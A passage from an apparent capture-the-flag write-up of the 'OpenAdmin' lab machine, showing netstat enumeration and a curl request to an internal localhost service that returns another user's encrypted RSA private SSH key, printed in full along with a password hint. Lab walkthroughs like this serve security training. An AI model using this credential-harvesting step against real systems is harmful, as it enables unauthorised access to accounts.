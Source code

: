 We try  `curl http://127.0.0.1/main.php` but we get a 404 error which is interesting the main.php is definetely a file. 

We run `netstat -tupln` to see if any other ports are running and indeed there are.
```bash
jimmy@openadmin:/var/www/internal$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```
We see that there are ports 3306 and 52846 running on locahost, we will try now read the file through the open ports, port 3306 doesnt work but port 52846  does infact work and we succesfully read joannas ssh key.
```bash
jimmy@openadmin:/var/www/internal$ curl http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
